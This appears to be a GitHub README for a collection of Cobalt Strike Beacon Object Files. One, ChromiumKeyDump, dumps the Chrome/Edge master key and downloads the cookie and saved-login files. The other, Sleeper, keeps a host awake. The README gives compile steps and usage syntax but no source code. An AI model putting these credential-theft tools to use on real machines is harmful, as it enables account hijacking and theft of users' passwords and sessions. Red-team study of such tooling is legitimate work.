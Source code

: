 # Various BOF collection

| Name               | Description| 
| ------------------ | ---------------------- | 
| ChromiumKeyDump    | BOF implementation of [Chlonium](https://github.com/rxwx/chlonium) tool to dump Chrome/Edge Masterkey and download Cookie/Login Data files   | 
| Sleeper            | BOF to call the SetThreadExecutionState function to prevent host from `Sleeping` | 

### How to compile:

- Visual Studio:

```
x86:
"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars32.bat"
cl.exe /c /GS- /TP BOF.cpp /FoBOF.o

x64:
"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat"
cl.exe /c /GS- /TP BOF.cpp /FoBOF.x64.o
```

- MinGW: 

```
x86: i686-w64-mingw32-gcc -c BOF.cpp -o BOF.o
x64: x86_64-w64-mingw32-gcc -c BOF.cpp -o BOF.x64.o
```
#### After compiling, place the object files (.o) into the bin folder and load the (.cna) files to Cobalt Strike.

## ChromiumKeyDump

### Usage:
```
chromiumkeydump [edge|chrome] [argument(required)] [ChromePath(optional)]
                Arguments       Description
                ---------       -----------
                masterkey       Dump Masterkey
                cookies         Download Chrome Cookies file
                logindata       Download Chrome Login Data file
                all             Dump Masterkey and download files
                
                ChromePath      Path to custom installation directory
                                !Set the path to where the [User Data] folder is located!

                                Example: D:\\Programs\\
                                         C:\\Users\\USER\\AppData\\Local
```
### References:
https://github.com/rxwx/chlonium



## Sleeper

### Usage:
```
sleeper [argument(required)]
               Arguments      Description
               ---------      -----------
               off            Set the `ES_CONTINUOUS` flag and return to Default state
               on             Set the `ES_SYSTEM_REQUIRED` flag to prevent the Sleep
               force          Set the `ES_SYSTEM_REQUIRED|ES_AWAYMODE_REQUIRED` flags to prevent the Sleep, 
                              even if the Sleep button is pressed
```
### References:
https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setthreadexecutionstate
